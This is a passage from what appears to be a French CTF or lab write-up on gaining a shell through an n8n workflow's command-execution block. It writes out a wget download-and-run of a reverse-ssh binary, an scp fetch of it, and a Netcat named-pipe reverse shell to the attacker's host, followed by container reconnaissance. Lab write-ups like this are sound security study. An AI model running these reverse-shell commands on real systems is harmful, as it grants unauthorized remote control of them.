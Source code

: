 Une fois qu'on a mis le trigger de début d'action, on peut ajouter d'autres blocs, certains permettant par exemple d'exécuter des commandes sur le système.

J'ai tenté de rapatrier `reverse-ssh` :

```console
cd /tmp;wget http://192.168.56.1:8000/reverse-sshx64;chmod 755 reverse-sshx64;nohup ./reverse-sshx64
```

Mais je n'ai eu aucune connexion sur mon serveur web. Il s'est avéré que ni curl ni wget ne sont présents.

Un regardant l'IP du système avec `ip addr` on découvre qu'on est dans un docker :

```
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

Ce container fait tourner Alpine Linux :

```
Linux 83ed090ff160 6.12.11-0-lts #1-Alpine SMP PREEMPT_DYNAMIC 2025-01-24 20:02:52 x86_64 Linux
```

La seule solution est de passer par ssh :

```bash
scp -i key -o StrictHostKeyChecking=no devloop@192.168.56.1:reverse-sshx64 reverse-sshx64
```

Mais une fois lancé, la durée de vie du process `reverse-ssh` était de longue durée.

### To

Je me suis rabattu sur un shell plus classique à base de Netcat :

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.56.1 80 >/tmp/f &
```

En explorant le système, je n'ai rien trouvé, idem avec LinPEAS.

Je me suis dit que peut être je suivais une mauvaise piste, alors j'ai cherché une vulnérabilité existante dans n8n et j'ai trouvé ce document :

https://www.synacktiv.com/sites/default/files/2023-05/Synacktiv-N8N-Multiple-Vulnerabilities_0.pdf

Toutefois l'endpoint `credential-translation` mentionné dans le document n'existe pas sur la version n8n qui nous intéresse.
